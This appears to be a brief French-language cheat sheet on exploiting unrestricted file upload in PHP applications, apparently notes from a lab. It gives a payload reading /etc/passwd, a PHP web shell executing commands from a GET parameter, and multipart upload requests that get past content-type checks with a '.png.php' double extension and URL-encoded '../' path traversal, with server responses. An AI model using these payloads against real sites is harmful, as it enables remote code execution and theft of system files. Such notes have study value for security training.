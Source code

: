 ## Exploit unrestricted file upload


Pour lire des fichiers en php on peux dire :
`<?php echo file_get_contents('/etc/passwd'); ?>`

Oubien pour executer des commandes a distances on peux aussi utiliser le `$_GET['0']`:

`<?php echo system(_$_GET[0]); ?>`


## Content type Bypass
``Sorry, file type text/plain is not allowed Only image/jpeg and image/png are allowed Sorry, there was an error uploading your file.``

- *Bypass*: rename it into ``.png.php``

```sh
Content-Disposition: form-data; name="avatar"; filename="key.png.php"
Content-Type: image/png
<?php echo system($_GET[0]); ?>

The file avatars/key.png.php has been uploaded.<p><a href="/my-account" title="Return to previous page">
```



## Bypass using LFI

adding `../` by encoding it using url encode `..%2F`

```sh
Content-Disposition: form-data; name="avatar"; filename="..%2Fkey.php"
Content-Type: text/php

<?php phpinfo(); ?>


The file avatars/../key.php has been uploaded.<p>
```

Now visit the url but ``../``